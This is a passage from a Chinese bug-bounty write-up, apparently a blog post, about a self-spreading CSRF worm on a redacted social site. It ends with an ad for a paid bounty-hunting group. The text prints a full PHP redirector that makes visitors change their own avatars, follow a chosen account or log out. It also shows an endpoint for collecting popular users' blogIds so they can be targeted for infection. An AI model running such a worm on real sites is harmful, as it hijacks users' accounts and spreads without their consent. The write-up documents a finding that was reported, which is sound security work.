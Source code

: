 没错，当别人看到我头像(指向GET修改头像的API)，就会自动修改自己的头像，成指向GET修改头像的API，然后其他人再去看到他们的头像。。。  
  
一传十，十传百这样就可以影响到全站的用户。如果这个时候，我把VPS上的poc.php内容修改成退出访问/logout，不就会让全站的用户的退出了吗？  
  
等下，利用链不止于此，我发现那个关注的接口也是可以通过GET传参，这就说明可以恶意刷关注量了。  
# 实践开始  
  
首先在对应的服务器上创建这样一个php脚本用于转跳  
```
<?phpsession_start(); // 启用会话$ip = $_SERVER['REMOTE_ADDR']; // 获取访问者的 IP 地址$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : ''; // 获取 Referer// 定义跳转 URL$firstRedirect = "https://api.*****.com/v1.1/avaimageupload.api?product=*****-android-8.1.9&imageUrl=www.7ntsec.cn/avaimg.*****.net/location_check.php&blogId=2267493166";$secondRedirect = "https://api.*****.com/v1.1/follow.api?followtype=follow&product=*****-android-8.1.9&targetblogid=529578359&blogdomain=*****gamer.*****.com";$refererRedirect = "https://avaimg.*****.net/img/";// 日志文件路径$logFile = "./access_log.txt";// 记录日志的函数functionlogAccess($ip, $referer, $visitCount, $redirectUrl) {global$logFile;$timestamp = date("Y-m-d H:i:s");$logEntry = "[$timestamp] IP: $ip | Referer: $referer | Visit Count: $visitCount | Redirect: $redirectUrl\n";  file_put_contents($logFile, $logEntry, FILE_APPEND); // 追加写入日志}// 如果 Referer 包含 gcweb.*****.com，则直接跳转并记录日志if (strpos($referer, "gcweb.*****.com") !== false) {  logAccess($ip, $referer, "N/A", $refererRedirect);  header("Location: $refererRedirect");exit;}// 记录访问次数（基于 IP）if (!isset($_SESSION['visit_count'][$ip])) {$_SESSION['visit_count'][$ip] = 1;} else {$_SESSION['visit_count'][$ip]++;}// 根据访问次数进行跳转并记录日志if ($_SESSION['visit_count'][$ip] == 1) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $firstRedirect);  header("Location: $firstRedirect");exit;} elseif ($_SESSION['visit_count'][$ip] == 2) {  logAccess($ip, $referer, $_SESSION['visit_count'][$ip], $secondRedirect);  header("Location: $secondRedirect");exit;}?>
```  
  
我这里的思路就是同一个IP第一次访问就是去修改头像，第二次就是直接退出，就实现了自动利用的效果。  
  
但还是碰到这个问题，回到上述的数据包:  
```
api.*****.com/v1.1/avaimageupload.api?product=*****&imageUrl=***vps/**.png&blogId=***
```  
  
我们还需要这个blogid如果获取不了的话就会修改不成  
  
这里我组合利用了另外一个接口:  
```
https://****/*****/web/all.json?key=<username>
```  
  
这个可以直接获取那些高赞博主blogid,就造成了利用。虽然到这一步还是不能自动化利用，但是还是可以通过获取特定高粉丝博主的blogid，然后修改csrfpoc对应的blogid，在这些博主的作品留言实现定向感染高粉丝博主，感染完成后，修改poc成具体危害的数据包如退出，关注等，实现大规模利用的。最终评级是拿到了高危。  
  
建立了一个  
src专项圈子  
，内容包含**src漏洞知识库**  
、**src挖掘技巧**  
、**src视频教程**  
等，一起学习赚赏金技巧，以及专属微信群一起挖洞  
  
圈子专注于更新src相关：  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、分享src优质视频课程
3、分享src挖掘技巧tips
4、小群一起挖洞
```  
  
